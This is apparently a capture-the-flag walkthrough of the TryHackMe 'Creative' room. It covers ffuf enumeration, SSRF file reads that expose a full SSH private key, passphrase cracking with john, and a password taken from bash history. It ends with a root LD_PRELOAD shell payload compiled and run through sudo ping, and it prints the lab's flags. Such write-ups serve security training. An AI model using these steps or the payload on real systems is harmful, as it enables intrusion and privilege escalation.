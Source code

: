 ### 13-Apr-24-Sat

[TryhackMe | Creative](https://tryhackme.com/r/room/creative)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/29d6a090-38d6-4ab4-8407-afa8a4a49cab)

http://creative.thm/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/33ac429e-1b1b-4d2a-8883-f37ec4d5a2f0)

http://creative.thm/components.html

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/8a833c75-1f92-4c30-9c40-8a8e0219f848)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/1101ca84-bccb-466e-88a1-36c5e31b1b05)

```
ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ce2ab09e-62a1-45d2-aaab-c8afa9985dcc)

```
ffuf -u http://creative.thm/ -w /usr/share/wordlists/dirb/big.txt -H "Host: FUZZ.creative.thm" -fs 178
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a03c9a16-ce32-4280-bfb3-58a76c687f8a)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/7bb74a1a-f452-4578-9119-f7d32902d9cf)

http://beta.creative.thm/

http://localhost:1337/home/saad/user.txt

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f85f58ac-022f-41ac-9c0f-932c2cda4c20)

```
9a1ce90a7653d74ab98630b47b8b4a84
```

http://localhost:1337/home/saad/.ssh/id_rsa

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/656e89b0-2cf0-45eb-98e7-81d919ce06d9)

```
ssh2john id_rsa_saad > id_rsa_saad.johnhash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_saad.johnhash
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/59e8011c-d350-40f2-954a-beda77fac1ed)

*saad:sweetness*

```
ssh saad@creative.thm -i id_rsa_saad
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/4d4e4272-c6dd-4dba-b83f-27474d8927f0)

```
cat start_server.py 
```

```
from http.server import HTTPServer, SimpleHTTPRequestHandler

httpd = HTTPServer(('localhost', 1337), SimpleHTTPRequestHandler)
httpd.serve_forever()
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c6c92c66-f415-4eed-adc2-15e622d12814)

```
cat wsgi.py 
```

```
from flaskapp import app
if __name__ == "__main__":
    app.run()
```

```
cat index.html
```

```
<!DOCTYPE html>
<html>
<head>
  <title>URL Tester</title>
  <link rel="stylesheet" type="text/css" href="css/style.css">
</head>
<body>
  <div class="container">
    <h1>Beta URL Tester</h1>
    <p>This page provides the functionality that allows you to test a URL to see if it is alive. Enter a URL in the form below and click "Submit" to test it.</p>
    <form action="/" method="POST">
      <label for="url">Enter URL:</label>
      <input type="text" id="url" name="url" placeholder="http://example.com">
      <input type="submit" value="Submit">
    </form>
  </div>
</body>
</html>
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/302d3c51-7f2a-4836-aa94-ead5d60fe3cd)

```
cat .bash_history
```

```
whoami
pwd
ls -al
ls
cd ..
sudo -l
echo "saad:MyStrongestPasswordYet$4291" > creds.txt
rm creds.txt
sudo -l
whomai
whoami
pwd
ls -al
sudo -l
ls -al
pwd
whoami
mysql -u root -p
netstat -antlp
mysql -u root
sudo su
ssh root@192.169.155.104
mysql -u user -p
mysql -u db_user -p
ls -ld /var/lib/mysql
ls -al
cat .bash_history 
cat .bash_logout 
nano .bashrc 
ls -al
```

*saad:MyStrongestPasswordYet$4291*

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d62f5e3d-363b-4b6c-a28b-58b6dbae40f0)

```
sudo -l
```

```
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path

```
nano /tmp/pe.c
```

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

```
sudo LD_PRELOAD=./pe.so /usr/bin/ping
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/2645157e-3459-4843-9478-82f7f750457d)

```
Walkthrough from
https://youtu.be/UgAhrTVbd70?t=2982
https://www.youtube.com/@TCMSecurityAcademy
```

```
992bfd94b90da48634aed182aae7b99f
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/9c54e06d-f1a2-4072-a519-968041bfab75)
